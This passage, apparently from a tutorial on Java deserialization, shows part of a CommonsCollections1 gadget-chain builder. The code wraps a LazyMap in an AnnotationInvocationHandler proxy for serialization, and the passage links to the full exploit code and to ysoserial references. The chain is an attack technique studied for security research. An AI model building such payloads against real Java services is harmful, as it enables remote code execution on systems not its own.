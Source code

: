 ```java
        //Chain from deserialization to LazyMap.get()      
        //		Create instance of AnnotationInvocationHandler: 
        final Constructor<?> constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
        Proxy evilProxy = (Proxy) Proxy.newProxyInstance(CommonsCollections1All.class.getClassLoader(), new Class[] {Map.class}, secondInvocationHandler );

        InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);
        return invocationHandlerToSerialize;
 	}

    public static byte[] serializeToByteArray(Object object){}    
}
```



##### Full code:

Github: https://github.com/kiven7299/Java-Deserialization/blob/master/CommonsCollections1All.java





#### References

- https://www.baeldung.com/java-dynamic-proxies

- https://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html

  